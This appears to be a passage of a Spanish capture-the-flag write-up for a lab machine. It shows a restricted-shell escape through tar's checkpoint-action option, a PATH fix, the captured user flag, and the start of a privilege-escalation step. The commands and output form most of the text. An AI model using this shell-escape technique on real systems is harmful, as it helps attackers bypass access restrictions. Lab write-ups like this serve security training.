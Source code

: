 Con ```tar``` existe una forma de ```spawnear``` una shell, en mi caso una ```sh```

```null
ayush@chaos:/$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$
```

No puedo ejecutar comandos de forma relativa ya que la variable de entorno ```$PATH``` no los contempla

```null
$ whoami
/bin/sh: 6: whoami: not found
```

```null
$ echo $PATH
/home/ayush/.app
```

Exporto mi ```PATH``` al de la máquina víctima

```null
$ export PATH=$PATH:/root/gems/bin:/root/gems/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/opt:/opt/go/bin:/opt/gradle/gradle-7.5.1/bin:/opt/zerologon:/home/rubbx/.cargo/bin/:/usr/share/metasploit-framework/tools/exploit/:/home/root/.local/bin:/root/.fzf/bin:/opt:/opt/go/bin:/opt/gradle/gradle-7.5.1/bin:/opt/zerologon:/home/rubbx/.cargo/bin/:/usr/share/metasploit-framework/tools/exploit/:/home/root/.local/bin
```

Convierto la ```sh``` en una ```bash```

```null
$ bash
ayush@chaos:/$ 
```

Puedo ver la primera flag

```null
ayush@chaos:~$ cat user.txt 
231115abbbbdac9b61e1e6fb337d3bf1
```

# Escalada

En el directorio personal de ```ayush``` hay uno oculto de ```.mozilla```

```null
ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Jun 15 14:29 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Jun 15 14:29 .gnupg
drwx------ 3 ayush ayush 4096 Jun 15 14:14 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Jun 15 13:33 user.txt
```
